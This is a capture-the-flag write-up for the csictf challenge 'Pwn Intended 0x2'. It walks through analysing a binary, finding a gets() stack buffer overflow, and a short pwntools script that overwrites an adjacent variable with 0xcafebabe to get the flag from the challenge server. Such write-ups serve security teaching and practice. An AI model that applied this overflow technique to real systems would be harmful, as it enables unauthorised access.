




# Pwn Intended 0x2
Sadly, we can't just smash the keyboard. Let's check what protections are enabled:



NX is enabled, so unfortunately no shellcode, but no other protections. Let's perhaps decompile it in GHidra:



So we have a 44-byte-long buffer storing our input. Our input is read by `gets()`, a clear buffer overflow vulnerability. Interestingly, the program seems to also return the flag if the `if` condition is met. I've known GHidra to make (big) mistakes with numbers, so I check the disassembly in radare2.



Thanks to radare2's colour scheme, the true comparison is to `0xcafebabe`.

## Exploitation


As we can see, the buffer our input is stored in is lower down the stack to the variable that is compared, so if we overflow the buffer we will overflow *into the other variable*. From the decompilation we know the buffer is 44 bytes long, so we need 44 bytes of padding before we reach the checked variable and write `0xcafebabe`.

```python
from pwn import *

p = remote('chall.csivit.com', 30007)

payload = b'A' * 44
payload += p32(0xcafebabe)

p.sendline(payload)

print(p.clean().decode())
```

**csictf{c4n_y0u_re4lly_telep0rt?}**